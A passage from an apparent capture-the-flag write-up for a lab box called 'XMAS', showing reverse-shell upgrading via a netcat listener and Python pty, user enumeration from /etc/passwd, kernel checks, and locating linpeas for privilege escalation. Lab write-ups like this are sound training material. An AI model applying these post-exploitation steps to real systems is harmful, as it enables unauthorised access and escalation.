 As soon as it is suspended we should continue upgrading the shell.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  rlwrap nc -lvnp 1234
$ stty columns 200 rows 200
stty: 'standard input': Inappropriate ioctl for device
$ python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
www-data@xmas:/$ 


```
Let's enumerate the users on the system.
```bash
www-data@xmas:/$ awk -F: '($3>=1000)&&($1!="nobody"){print $1}' /etc/passwd
awk -F: '($3>=1000)&&($1!="nobody"){print $1}' /etc/passwd
alabaster
santa
sugurplum
bushy
pepper
shinny
wunorse
www-data@xmas:/$ 

```
Let's add the users into our notes, net thing is to check the Linux distro and kernel.
```bash
www-data@xmas:/$ cat /proc/version
cat /proc/version
Linux version 6.2.0-36-generic (buildd@lcy02-amd64-047) (x86_64-linux-gnu-gcc-12 (Ubuntu 12.3.0-1ubuntu1~23.04) 12.3.0, GNU ld (GNU Binutils for Ubuntu) 2.40) #37-Ubuntu SMP PREEMPT_DYNAMIC Wed Oct  4 10:14:28 UTC 2023
www-data@xmas:/$ 

```
It is running on a `x86_64` architecture and the kernel is `6.2.0-36-generic`. The Linux distro is `Ubuntu 23.04`, this information should be added to our notes.

Let's use linpeas to enumerate a lot of information to see how we can escalate our privileges.
First we should copy linpeas to our working directory.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ locate linpeas
/opt/linpeas
/opt/linpeas/linpeas.sh
/opt/linpeas/linpeas_darwin_amd64
/opt/linpeas/linpeas_darwin_arm64
/opt/linpeas/linpeas_fat.sh
/opt/linpeas/linpeas_linux_386
/opt/linpeas/linpeas_linux_amd64
/opt/linpeas/linpeas_linux_arm
/usr/bin/linpeas
/usr/share/peass/linpeas
/usr/share/peass/linpeas/linpeas.sh
/usr/share/peass/linpeas/linpeas_darwin_amd64
/usr/share/peass/linpeas/linpeas_darwin_arm64
/usr/share/peass/linpeas/linpeas_fat.sh
/usr/share/peass/linpeas/linpeas_linux_386
/usr/share/peass/linpeas/linpeas_linux_amd64
/usr/share/peass/linpeas/linpeas_linux_arm
/usr/share/peass/linpeas/linpeas_linux_arm64

┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
```